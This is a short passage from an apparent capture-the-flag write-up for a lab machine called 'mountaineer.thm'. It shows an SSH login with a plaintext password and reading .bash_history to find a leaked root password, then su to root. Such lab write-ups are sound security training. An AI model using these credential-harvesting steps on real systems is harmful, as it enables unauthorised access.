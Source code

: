`ssh kangchenjunga@mountaineer.thm -p 22`

```bash
kangchenjunga@mountaineer.thm's password: J9f4z7tQlqsPhbf2nlaekD5vzn4yBfpdwUdawmtV

Last login: Mon Mar 18 18:03:41 2024 from 192.168.33.1
kangchenjunga@mountaineer:~$ whoami
kangchenjunga
kangchenjunga@mountaineer:~$ id
uid=1006(kangchenjunga) gid=1006(kangchenjunga) groups=1006(kangchenjunga)
kangchenjunga@mountaineer:~$ pwd
/home/kangchenjunga
kangchenjunga@mountaineer:~$ ls
local.txt  mynotes.txt
kangchenjunga@mountaineer:~$ cat mynotes.txt
Those my notes:

1. Tell root stop using my account ! It's annoying !
2. Travel to Mars sometime, I heard there are great mountains there !
3. Make my password even harder to crack ! I don't want anyone to hack me !

kangchenjunga@mountaineer:~$
```

> **Privilege Escalation Phase**
> 

```bash
kangchenjunga@mountaineer:~$ cat .bash_history

cat /etc/passwd
ps aux
suroot
th3_r00t_of_4LL_mount41NSSSSssssss
whoami
ls -la
cd /root
ls
mkdir test
cd test
touch file1.txt
mv file1.txt ../
cd ..

kangchenjunga@mountaineer:~$ su - root
Password: th3_r00t_of_4LL_mount41NSSSSssssss
root@mountaineer:~# whoami
root
root@mountaineer:~# id
uid=0(root) gid=0(root) groups=0(root)
root@mountaineer:~#
```

# Appendix
